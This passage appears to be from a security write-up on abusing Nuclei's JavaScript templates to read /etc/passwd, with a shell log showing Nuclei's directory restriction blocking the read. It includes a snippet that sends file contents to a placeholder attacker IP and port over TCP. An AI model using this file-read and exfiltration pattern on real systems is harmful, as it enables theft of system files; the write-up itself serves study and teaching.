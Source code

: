 According to the documentation, it has some built-in modules that can be imported. For instance, we can import the [`fs`](https://docs.projectdiscovery.io/templates/protocols/javascript/modules/fs) module to read files. With that said, let's try to read some files!

```yaml
id: anything

info:
  name: anything
  author: anything
  severity: info

javascript:
  - code: |
      const fs = require('nuclei/fs');
      const content = fs.ReadFileAsString('/etc/passwd');
```

If we run that custom template, it doesn't have any error/result.

Now, how can we exfiltrate the content of the file? We're just reading it and not outputting to the stdout/stderr.

Well, in JavaScript, we can use `console.log` to print out the value. Let's try that:

```javascript
const fs = require('nuclei/fs');
const content = fs.ReadFileAsString('/etc/passwd');
console.log(content);
```

> Note: There are many more ways to achieve the same goal. Including using [global function `log`](https://projectdiscovery.github.io/js-proto-docs/global.html#log) provided by Nuclei, and using module [`net`](https://docs.projectdiscovery.io/templates/protocols/javascript/modules/net) to send data to our attacker server:
> ```javascript
> const net = require('nuclei/net');
> const conn = net.Open("tcp", "<attacker_ip>:<attacker_port>");
> conn.Send('<data_here>');
> conn.Close();
> ```

If we run that again, it still don't have any output. Why?

If we run it with a verbose flag (`-v`), we can see this warning:

```shell
nuclei@f72b3012b71b:~$ cat << EOF > template.yaml 
> id: anything

info:
  name: anything
  author: anything
  severity: info

javascript:
  - code: |
      const fs = require('nuclei/fs');
      const content = fs.ReadFileAsString('/etc/passwd');
      console.log(content);
> EOF
nuclei@f72b3012b71b:~$ nuclei -target http://127.0.0.1:80 -jsonl --no-color -t template.yaml -v
[...]
[VER] [anything] Sent Javascript request to 127.0.0.1:80
[WRN] [anything] Could not execute request for http://127.0.0.1:80: [:RUNTIME] path /etc/passwd is outside nuclei-template directory and -lfa is not enabled
[...]
```
